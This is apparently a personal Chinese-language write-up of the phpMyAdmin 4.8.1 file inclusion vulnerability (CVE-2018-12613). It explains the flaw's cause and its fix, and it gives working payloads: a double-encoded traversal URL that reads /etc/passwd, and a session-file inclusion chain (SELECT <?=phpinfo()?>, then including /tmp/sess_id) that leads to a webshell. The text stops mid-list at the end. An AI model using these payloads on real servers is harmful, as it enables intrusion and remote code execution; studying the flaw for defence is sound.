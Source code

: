 ```yaml
---
title: phpmyadmin-4.8.1远程文件包含
cve: CVE-2018-12613
tags:
  - sec
date: 2024-09-18T15:33:13
lastmod: 2025-09-29T20:52:25
toc: "true"
draft: "false"
---
```

##  漏洞简介
phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具。其index.php中存在一处文件包含逻辑，通过二次编码即可绕过检查，造成远程文件包含漏洞。

这个漏洞刚刚打演练的时候用过,分析一下原理

##  影响版本
phpmyadmin 4.8.0 & 4.8.1
## 前提条件
能够进入后台,也就是要有数据库的凭据
## 前置知识
### php文件包含
服务器执行PHP文件时，可以通过文件包含函数加载另一个文件中的PHP代码，并且当PHP来执行，这会为开发者节省大量的时间。
文件包含相关函数
```bash
require()#函数出现错误的时候，会直接报错并退出程序的执行
require_once()#只包含一次
include()#在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行
include_once()#只包含一次
```
文件包含分为本地文件包含和远程文件包含

远程文件包含利用需要下面这两个配置文件都开启
当allow_url_include和allow_url_fopen都开启时，可以通过利用远程url或者php://协议直接getshell，即远程文件包含，
但allow_url_include在php5.2之后默认为off，利用机会有限。
![](https://img.l1uyun.one/phpmyadmin-4.8.1远程文件包含_image_1.png)
当allow_url_include and allow_url_fopen均为off 在window主机环境下仍然可以进行远程文件执行，用445端口SMB协议进行远程加载。

## 漏洞复现
直接访问下面的路径,能输出passwd内容那就是有了

`/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd`
![](https://img.l1uyun.one/phpmyadmin-4.8.1远程文件包含_image_2.png)

利用方式的话,就是先在sql栏执行一下select命令,然后去包含session文件,就能获得webshell,进而拿shell

可以执行一下`SELECT <?=phpinfo()?>;`，然后查看自己的sessionid（cookie中phpMyAdmin的值），然后包含session文件即可：

对应的sessions文件是 /tmp/sess_sessionid
[phpmyadmin-4_8_1远程文件包含漏洞（CVE-2018-12613）](phpmyadmin-4_8_1远程文件包含漏洞（CVE-2018-12613）.pdf)

## 漏洞分析

简单来说就是phpmyadmin对用户传入的参数直接进行了包含,并且黑名单的检验不严格,可以绕过,从而导致了LFI
```php
index.php
// If we have a valid target, let's load that script instead
if (! empty($_REQUEST['target'])
    && is_string($_REQUEST['target'])
    && ! preg_match('/^index/', $_REQUEST['target'])
    && ! in_array($_REQUEST['target'], $target_blacklist)
    && Core::checkPageValidity($_REQUEST['target'])
) {
    include $_REQUEST['target'];
    exit;
}

# 黑名单
$target_blacklist = array (
    'import.php', 'export.php'
);
```
然后就是在phpmyadmin中,执行sql语句之后,会存储在session文件中,如果包含这个文件,就能让select里面的php代码被执行
```bash
/index.php?target=db_sql.php?/../../../../../../../../etc/passwd
#Windows环境下利用需要对?进行编码
/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_21faa6130eaba2b5e04e313bfacc60d4
```

## 漏洞发现
进入后台之后,查看版本信息
## 漏洞修复
升级phpmyadmin版本
##  相关漏洞
[phpMyAdmin-4.0.x—4.6.2_远程代码执行漏洞](phpMyAdmin-4.0.x—4.6.2_远程代码执行漏洞.md)

## 漏洞总结
这个漏洞刚刚演练的时候利用过,比较熟悉了...
记忆这个漏洞
- 组件:phpmyadmin
- 版本:4.8.1&4.8.0
- 漏洞类型:文件包含



假设你在尝试利用,挖掘这个漏洞
- 漏洞产生点:首页的target参数
- 漏洞类型:文件包含
- 漏洞利用方法:通过对sessions文件进行包含从而实现rce
- 遇到问题之后的解决方案: